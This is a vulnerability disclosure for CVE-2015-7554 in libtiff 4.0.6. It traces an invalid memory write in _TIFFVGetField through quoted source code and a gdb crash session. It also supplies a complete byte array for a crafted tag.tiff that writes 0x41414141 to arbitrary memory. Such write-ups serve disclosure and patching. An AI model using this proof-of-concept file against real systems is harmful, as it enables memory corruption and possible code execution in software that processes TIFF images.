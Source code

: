 ```yaml
---
date: 2015-12-26
---
```

# CVE-2015-7554: libtiff: invalid write

`_TIFFVGetField()` in libtiff-4.0.6 may write field data for certain
extension tags to invalid or possibly arbitrary memory.

Each tag has a `field_passcount` variable in their TIFFField struct:

tiff-4.0.6/libtiff/tif_dir.h #276..289:
```c
struct _TIFFField {
    uint32 field_tag;                       /* field's tag */
    short field_readcount;                  /* read count/TIFF_VARIABLE/TIFF_SPP */
    short field_writecount;                 /* write count/TIFF_VARIABLE */
    TIFFDataType field_type;                /* type of associated data */
    uint32 reserved;                        /* reserved for future extension */
    TIFFSetGetFieldType set_field_type;     /* type to be passed to TIFFSetField */
    TIFFSetGetFieldType get_field_type;     /* type to be passed to TIFFGetField */
    unsigned short field_bit;               /* bit in fieldsset bit vector */
    unsigned char field_oktochange;         /* if true, can change while writing */
    unsigned char field_passcount;          /* if true, pass dir count on set */
    char* field_name;                       /* ASCII name */
    TIFFFieldArray* field_subfields;        /* if field points to child ifds, child ifd field definition array */
};
```

For example:

tiff-4.0.6/libtiff/tif_fax3.c #1139..1141:
```c
static const TIFFField fax3Fields[] = {
    { TIFFTAG_GROUP3OPTIONS, 1, 1, TIFF_LONG, 0, TIFF_SETGET_UINT32, TIFF_SETGET_UINT32, FIELD_OPTIONS, FALSE, FALSE, "Group3Options", NULL },
};
```

However, `field_passcount` is always assigned TRUE if the tag is
processed by `_TIFFCreateAnonField()`.  This happens on unsuccessful
invocations of `TIFFReadDirectoryFindFieldInfo()`:

tiff-4.0.6/libtiff/tif_dirread.c #3396..4076:
```c
int
TIFFReadDirectory(TIFF* tif)
{
[...]
            TIFFReadDirectoryFindFieldInfo(tif,dp->tdir_tag,&fii);
            if (fii == FAILED_FII)
            {
                TIFFWarningExt(tif->tif_clientdata, module,
                               "Unknown field with tag %d (0x%x) encountered",
                               dp->tdir_tag,dp->tdir_tag);
                /* the following knowingly leaks the
                   anonymous field structure */
                if (!_TIFFMergeFields(tif,
                                      _TIFFCreateAnonField(tif,
                                          dp->tdir_tag,
                                          (TIFFDataType) dp->tdir_type),
                                      1)) {
[...]
}
```

tiff-4.0.6/libtiff/tif_dirinfo.c #627..719:
```c
TIFFField*
_TIFFCreateAnonField(TIFF *tif, uint32 tag, TIFFDataType field_type)
{
    [...]
    fld->field_bit = FIELD_CUSTOM;
    [...]
    fld->field_passcount = TRUE;
    [...]
}
```

If the field for a 1-count extension tag whose `field_passcount` has
been overridden is later read by `_TIFFVGetField()`, this happens:

tiff-4.0.6/libtiff/tif_dir.c #823..1145:
```c
static int
_TIFFVGetField(TIFF* tif, uint32 tag, va_list ap)
{
    [...]
    uint32 standard_tag = tag;
    [...]
    if (fip->field_bit == FIELD_CUSTOM) {
        standard_tag = 0;
    }

    switch (standard_tag) {
        [...]
        default:
        {
            [...]
            for (i = 0; i < td->td_customValueCount; i++) {
                [...]
                if (fip->field_passcount) {
                    if (fip->field_readcount == TIFF_VARIABLE2)
                        *va_arg(ap, uint32*) = (uint32)tv->count;
                    else  /* Assume TIFF_VARIABLE */
                        *va_arg(ap, uint16*) = (uint16)tv->count;
                    *va_arg(ap, void **) = tv->value;
                    ret_val = 1;
                }
                [...]
            }
        }
    }
    [...]
}
```


With an invocation of `TIFFGetField()` such as:

```c
TIFFGetField(tif, TIFFTAG_GROUP3OPTIONS, &dst);
```

for a TIFFTAG_GROUP3OPTIONS specified as:

```c
0x24, 0x01, 0x04, 0x00, 0x01, 0x00, 0x00, 0x00, 0x41, 0x41, 0x41, 0x41
^^^^^^^^^^  ^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^^^^^
tag         type        count                   offset/value
```

the count is written to `dst`, whereas 0x41414141 is written to
invalid/arbitrary memory.


Using the included tiffsplit utility as an example:

tiff-4.0.6/tools/tiffsplit.c #157..228:
```c
static int
tiffcp(TIFF* in, TIFF* out)
{
    [...]
    CopyField(TIFFTAG_YRESOLUTION, floatv);
    CopyField(TIFFTAG_GROUP3OPTIONS, longv);
    [...]
}
```

```sh
$ gdb -q --args tiffsplit tag.tiff
Reading symbols from tiffsplit...done.
(gdb) r
TIFFReadDirectory: Warning, Unknown field with tag 292 (0x124) encountered.

Program received signal SIGSEGV, Segmentation fault.
0xb7f68155 in _TIFFVGetField (tif=0x804d008, tag=292, ap=0xbffff660 "\024\367\377\277\210\366\377\277\200\366\377\277\067\206\004\b0\371\377\267") at tif_dir.c:1056
1056                            *va_arg(ap, void **) = tv->value;
(gdb) x/i $eip
=> 0xb7f68155 <_TIFFVGetField+2229 at tif_dir.c:1056>:	mov    %edx,(%eax)
(gdb) x/x $edx
0x804d670:	0x41414141
(gdb) x/x $eax
0x41410000:	Cannot access memory at address 0x41410000
(gdb)
```


tag.tiff:
```c
unsigned char tiff[] = {
    /* little-endian */
    0x49, 0x49,

    /* version */
    0x2a, 0x00,

    /* tif->tif_diroff */
    0x09, 0x00, 0x00, 0x00,
    0x00,

    /* tag count */
    0x07, 0x00,

    /* tag    | type      | count                 | offset/value         */
    /* TIFFTAG_IMAGEWIDTH */
    0x00, 0x01, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
    /* TIFFTAG_IMAGELENGTH */
    0x01, 0x01, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
    /* TIFFTAG_BITSPERSAMPLE */
    0x02, 0x01, 0x03, 0x00, 0x03, 0x00, 0x00, 0x00, 0x63, 0x00, 0x00, 0x00,
    /* TIFFTAG_STRIPOFFSETS */
    0x11, 0x01, 0x04, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
    /* TIFFTAG_STRIPBYTECOUNTS */
    0x17, 0x01, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
    /* TIFFTAG_YRESOLUTION */
    0x1b, 0x01, 0x04, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x22, 0x00,
    /* TIFFTAG_GROUP3OPTIONS */
    0x24, 0x01, 0x04, 0x00, 0x01, 0x00, 0x00, 0x00, 0x41, 0x41, 0x41, 0x41,

    /* tif->tif_nextdiroff */
    0x00, 0x00, 0x00, 0x00,

    /* bits per sample */
    0x08, 0x00,
    0x08, 0x00,
    0x08, 0x00,
};
```


This issue has been assigned CVE-2015-7554 and it has yet to be fixed.
